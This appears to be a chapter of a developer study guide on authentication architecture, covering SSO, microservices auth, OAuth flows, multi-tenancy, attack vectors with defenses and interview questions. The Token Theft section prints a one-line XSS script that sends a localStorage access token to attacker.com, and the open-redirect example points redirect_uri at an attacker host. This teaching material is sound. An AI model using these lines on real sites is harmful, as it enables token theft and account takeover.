





[← Back to README](README.md)

# 11 — Real-World Scenarios

> Applying auth/identity concepts to real architectural decisions — the scenarios and design trade-offs you will encounter as a senior developer.

---

## Table of Contents
- [Scenario 1: SaaS Product with Enterprise SSO](#scenario-1-saas-product-with-enterprise-sso)
- [Scenario 2: Microservices Auth Architecture](#scenario-2-microservices-auth-architecture)
- [Scenario 3: Mobile App with OAuth 2.0](#scenario-3-mobile-app-with-oauth-20)
- [Scenario 4: Backend-for-Frontend (BFF) Pattern](#scenario-4-backend-for-frontend-bff-pattern)
- [Scenario 5: B2B Partner API Federation](#scenario-5-b2b-partner-api-federation)
- [Scenario 6: Multi-Tenant SaaS Identity](#scenario-6-multi-tenant-saas-identity)
- [Attack Vectors and Defense Patterns](#attack-vectors-and-defense-patterns)
  - [CSRF](#csrf)
  - [Token Theft](#token-theft)
  - [Open Redirect in OAuth](#open-redirect-in-oauth)
  - [JWT Algorithm Confusion](#jwt-algorithm-confusion)
  - [SAML XML Signature Wrapping](#saml-xml-signature-wrapping)
  - [Credential Stuffing](#credential-stuffing)
- [Security Headers Cheat Sheet](#security-headers-cheat-sheet)
- [Interview Questions for This Topic](#interview-questions-for-this-topic)

---

## Scenario 1: SaaS Product with Enterprise SSO

### Situation
You are building a B2B SaaS product. Your enterprise customers use Okta, Azure AD, or their own ADFS. They require their employees to use their corporate IdP to log into your product (not create separate passwords).

### Architecture



### Implementation Steps

1. **Tenant SSO configuration store**:
   ```json
   {
     "tenantId": "acme",
     "emailDomains": ["acme.com", "acme.net"],
     "protocol": "saml",
     "config": {
       "entityId": "https://acme.okta.com/app/salesforce/...",
       "ssoUrl": "https://acme.okta.com/app/saml/sso",
       "certificate": "MIIC..."
     }
   }
   ```

2. **Email domain routing**: When user enters `alice@acme.com`, look up `acme.com` in tenant config → found SAML config → initiate SP-initiated SAML flow.

3. **JIT (Just-in-Time) Provisioning**: First SSO login creates a user account:
   ```
   SSO assertion received
   → Extract email, name, groups from assertion
   → Does user exist in DB? No
   → Create user record automatically
   → Create session
   ```

4. **Attribute mapping**: Map IdP attributes to your user schema:
   ```
   SAML: http://schemas.microsoft.com/ws/2008/06/identity/claims/groups → user.groups
   OIDC: roles → user.permissions
   ```

5. **SSO enforcement**: For SSO-enabled tenants, disable email/password login.

6. **SCIM provisioning** (optional): Automate user lifecycle — Azure AD pushes user creates/deletes to your SCIM endpoint automatically (no JIT needed).

---

## Scenario 2: Microservices Auth Architecture

### Situation
A system with 10+ microservices. Services need to authenticate incoming requests (from both external users and internal services).

### Architecture



### Service-to-Service Authentication Options

**Option A: Shared JWT Secret** (simple, less secure)
- All services share the signing secret
- Any service can issue tokens for any other service
- Not recommended for production

**Option B: mTLS (Mutual TLS)**
- Each service has a certificate
- Services mutually authenticate via TLS handshake
- Used in service meshes (Istio, Linkerd)
```
Service A → presents cert to Service B
Service B → verifies cert is from trusted CA
Service B → presents its cert back
Service A → verifies cert
→ Mutual authentication complete
```

**Option C: Client Credentials Grant (OAuth 2.0)**
```
Service A registers as OAuth client
Service A → POST /token (client_credentials)
           → gets short-lived access_token
Service A → calls Service B with Bearer token
Service B → validates token with AS's JWKS
```

**Option D: Token Exchange (RFC 8693)**
Service A has a user's token and needs to call Service B on their behalf:
```
Service A (with user token) → POST /token
  grant_type=urn:ietf:params:oauth:grant-type:token-exchange
  subject_token=USER_ACCESS_TOKEN
  requested_token_type=access_token
  audience=service-b

AS → issues new token scoped to Service B
Service A → calls Service B with exchanged token
Service B → sees original user context + knows came via Service A
```

### JWT Propagation Patterns

**Pattern 1: Token Pass-Through**
- Gateway validates token, passes original token to downstream services
- Services validate independently
- Downside: Token must be scoped to all possible downstream services

**Pattern 2: Token Exchange at Gateway**
- Gateway exchanges inbound token for service-specific tokens
- Each service gets a token with appropriate `aud` and scopes
- More secure isolation between services

**Pattern 3: Gateway Injects Headers**
- Gateway validates token once, injects trusted headers (X-User-ID, X-User-Roles)
- Downstream services trust headers (no token validation needed)
- **Risk**: Internal network must be trusted; services must refuse requests that bypass gateway
- **Mitigation**: mTLS between all services to prevent header injection from untrusted callers

---

## Scenario 3: Mobile App with OAuth 2.0

### Situation
Building a native mobile app (iOS/Android) that needs to authenticate users and call APIs.

### Architecture: Authorization Code + PKCE + Token Storage



**Key mobile requirements**:
| Requirement | iOS | Android |
|------------|-----|---------|
| Secure storage | Keychain | Keystore / EncryptedSharedPreferences |
| Auth flow | ASWebAuthenticationSession | Custom Tabs |
| App links (PKCE callback) | Universal Links | App Links |
| Certificate pinning | URLSession + trust evaluation | OkHttp/Retrofit |

**Never use**: In-app WebView for auth (defeats purpose — app can read credentials entered in WebView). Always use system browser.

---

## Scenario 4: Backend-for-Frontend (BFF) Pattern

### Situation
You have a React SPA. Storing tokens in the browser is risky. The BFF pattern solves this.

### Architecture



**Flow**:
1. SPA sends login request to BFF
2. BFF initiates OAuth 2.0 Authorization Code flow (server-side)
3. BFF stores tokens server-side (or in HttpOnly cookie)
4. SPA uses session cookie with BFF
5. BFF uses access token to call downstream APIs
6. Tokens **never reach the browser**

**Benefits**:
- XSS in SPA cannot steal tokens
- Refresh token is on the server
- BFF handles all OAuth complexity

**Trade-offs**:
- BFF is a stateful service (needs session store or cookie-based session)
- More infrastructure

---

## Scenario 5: B2B Partner API Federation

### Situation
You provide an API. Partner companies (B2B) need to call your API on behalf of their users without managing separate credentials in your system.

### Option A: OAuth 2.0 Token Exchange (User Delegation)

Partner's users authenticate with Partner's IdP. Partner issues assertion. Your AS validates and exchanges for your access token.



### Option B: Client Credentials (M2M)

Partner registers as an OAuth client. They use client_credentials grant. This is service-level trust — not user-level.

```
Partner → client_id + client_secret → Your AS → access_token → Your API
```

### Option C: API Keys

Simpler alternative: issue long-lived API keys per partner. Lower security but widely used for developer APIs.

| | OAuth Client Credentials | API Keys |
|--|--------------------------|---------|
| Per-request auth | Yes (token exchange) | Yes (key in header) |
| Expiry | Short-lived tokens | Long-lived (manual rotation) |
| Revocation | Immediate | Immediate |
| Scope | Fine-grained | Typically all-or-nothing |
| Complexity | Higher | Lower |

---

## Scenario 6: Multi-Tenant SaaS Identity

### Situation
Your SaaS serves 1000+ customers (tenants), each needing isolated identity management.

### Identity Isolation Strategies

| Strategy | Description | Pros | Cons |
|---------|-------------|------|------|
| **Separate IdP realms** | Each tenant has their own Keycloak realm or Auth0 tenant | Full isolation; tenant-specific policies | High resource cost at scale |
| **Shared IdP with tenant claim** | Single IdP; add `tenant_id` claim to tokens | Cost-efficient | Accidental cross-tenant leakage if not careful |
| **Separate databases per tenant** | Full data isolation | Strong isolation | Expensive, complex migrations |
| **Shared DB + tenant_id column** | Row-level security enforced | Cost-efficient | RLS mistakes → data leak |

### Token Design for Multi-Tenancy

```json
{
  "sub": "user-123",
  "tenant_id": "acme-corp",
  "tenant_roles": {
    "acme-corp": ["admin"]
  },
  "iss": "https://auth.yourapp.com",
  "aud": "https://api.yourapp.com"
}
```

**Every API endpoint must verify `tenant_id` in token matches the requested resource's tenant.**

### Row-Level Security (PostgreSQL example)

```sql
-- Policy: users can only see rows for their own tenant
CREATE POLICY tenant_isolation ON orders
  USING (tenant_id = current_setting('app.current_tenant_id'));

-- Set tenant from verified JWT claim on each connection
SET LOCAL app.current_tenant_id = 'acme-corp';
SELECT * FROM orders; -- only returns acme-corp rows
```

---

## Attack Vectors and Defense Patterns

### CSRF

**Attack**: Cross-Site Request Forgery — malicious site triggers authenticated request.
→ Detailed in [03 — Session Management](03-session-management.md#csrf--cross-site-request-forgery)

**Quick defense**: `SameSite=Lax` cookies + CSRF token for state-mutating requests.

---

### Token Theft

**Scenario**: XSS injects malicious script that reads and exfiltrates access tokens.

```javascript
// Attacker's injected script
fetch('https://attacker.com/steal?token=' + localStorage.getItem('access_token'));
```

**Defense**:
1. Never store sensitive tokens in localStorage
2. Use HttpOnly cookies — inaccessible to JavaScript
3. Implement Content Security Policy (CSP) to prevent script injection
4. Use BFF pattern — tokens never reach browser

---

### Open Redirect in OAuth

**Attack**: Attacker submits a crafted `redirect_uri` to receive the authorization code.

```
Attacker sends user to:
GET /authorize?
  client_id=legit-client&
  redirect_uri=https://attacker.com/capture&  ← malicious!
  response_type=code&
  scope=read:all

If AS uses prefix matching (bad): allows redirect to attacker
```

**Defense**:
- Authorization Servers must match `redirect_uri` **exactly** (not prefix matching)
- Register allowed redirect URIs during client registration
- OAuth 2.1 mandates exact matching

---

### JWT Algorithm Confusion

**Attack**: Switching from RS256 to HS256, using the public key as HMAC secret.
→ Detailed in [04 — JWT](04-jwt.md#security-vulnerabilities-and-attacks)

**Defense**: Whitelist algorithms. Never allow `none`. Use separate keys per algorithm.

---

### SAML XML Signature Wrapping

**Attack**: Attacker wraps a signed (but low-privilege) assertion around their forged (unsigned) assertion.
→ Detailed in [07 — SAML](07-saml.md#saml-security-considerations)

**Defense**: After signature validation, use only the element that was signed. Use robust SAML libraries (not homegrown).

---

### Credential Stuffing

**Attack**: Attacker uses lists of leaked username:password pairs to log in to your app.

**Defense**:
- Rate limiting on login endpoint (exponential backoff, CAPTCHA)
- Breach password detection (check against HIBP — Have I Been Pwned)
- MFA — renders credential stuffing ineffective
- Anomaly detection — multiple logins from different IPs
- Bot detection (fingerprinting, behavioral analysis)

---

## Security Headers Cheat Sheet

```
# Prevent clickjacking (embedding your site in iframes)
X-Frame-Options: DENY
# or
Content-Security-Policy: frame-ancestors 'none';

# Prevent MIME type sniffing
X-Content-Type-Options: nosniff

# Force HTTPS
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

# Control referer information (don't leak tokens in Referer header)
Referrer-Policy: strict-origin-when-cross-origin

# Content Security Policy (prevents XSS script injection)
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';

# Permissions Policy (disable browser features)
Permissions-Policy: geolocation=(), camera=(), microphone=()
```

---

## Interview Questions for This Topic

1. How would you design auth for a SaaS product that needs to support 100 enterprise customers, each with their own SAML or OIDC IdP?
2. How do microservices authenticate each other? Compare JWT pass-through, mTLS, and Client Credentials.
3. What is the BFF pattern and how does it improve security for SPAs?
4. In a multi-tenant application, how do you prevent tenant A from accessing tenant B's data?
5. You discover that users' access tokens are being stolen via XSS. What immediate and long-term mitigations would you implement?
6. What is token exchange (RFC 8693) and when would you use it?
7. An attacker performs a SAML XML Signature Wrapping attack. How does it work and how do you prevent it?

→ Full answers in [12 — Interview Q&A](12-interview-qa.md)

---

## Related Topics
- [05 — OAuth 2.0](05-oauth2.md)
- [06 — OIDC](06-oidc.md)
- [07 — SAML](07-saml.md)
- [08 — SSO](08-sso.md)
- [10 — Protocols Comparison](10-protocols-comparison.md)
